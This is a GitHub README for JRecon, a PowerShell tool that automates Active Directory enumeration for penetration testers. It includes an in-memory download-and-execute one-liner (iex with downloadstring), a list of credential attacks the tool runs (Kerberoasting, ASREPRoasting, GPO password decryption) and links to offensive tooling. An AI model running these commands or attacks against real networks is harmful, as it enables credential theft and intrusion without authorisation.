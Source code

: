 # JRecon
### A tool to automate Active Directory Enumeration
I've been working on this tool to automate a good part of the initial AD enumeration phase.

JRecon is not perfect, but it does it's job - while you can go grab a coffee

### How to run ?

Run the tool on memory (don't make it touch disk)

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/JRecon/main/Invoke-JRecon.ps1')
```

Specify the Commercial Version PingCastle URL or Key (or it will download and use the free version)
```
Invoke-JRecon -PingCastleURL <URL>
```
```
Invoke-JRecon -PingCastleKey "<Key>"
```

### What does the tool enumerate for ?

The only attacks it runs is Kerberoasting, ASREPRoasting, and URL File Attack. Everything else is just enumeration

•	AD objects and policies (subnets, computers, users, DCs, password policy and more)

•	Users Description field piping to file (excludes blank entries)

•	Creates a list of Servers

•	Creates a list of Hosts running Unsupported OS

•	Checks on Local Admins on the system

•	Checks if AV is installed

•	Checks for Local Admin Password Solution (LAPS)

•	Kerberoasting and ASREPRoasting

•	Checks for presence of Kerb Tickets in your local machine

•	Enumerates for Vulnerable GPOs

•	Checks for Misconfigured Certificate Templates

•	BloodHound collection

•	Checks for Exploitable Systems

•	Checks for LDAP Signing

•	Checks for Passwords in GPO (and decrypts them if it finds any)

•	Checks for Passwords in SYSVOL/Netlogon

•	Checks for Accessible shares (Read)

•	Checks for Writable shares (Write)

•	URL File Attack

### Dependencies

https://github.com/GhostPack/Rubeus && https://github.com/gentilkiwi/kekeo/
 
https://github.com/Group3r/Group3r
 
https://github.com/GhostPack/Certify

https://github.com/cube0x0/LdapSignCheck

https://github.com/vletoux/pingcastle

https://github.com/BloodHoundAD/SharpHound

https://github.com/sense-of-security/ADRecon

https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1

https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

https://github.com/darkoperator/Veil-PowerView/blob/master/PowerView/functions/Invoke-ShareFinder.ps1

https://twitter.com/_RastaMouse

https://github.com/nullbind/Powershellery/blob/master/Stable-ish/ADS/Get-ExploitableSystems.psm1

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

https://github.com/S3cur3Th1sSh1t/PowerSharpPack

https://www.tenable.com

https://github.com/rejetto/hfs2/

https://github.com/nccgroup/WinShareEnum

https://www.advanced-ip-scanner.com/

https://www.virtualbox.org/

https://www.kali.org/
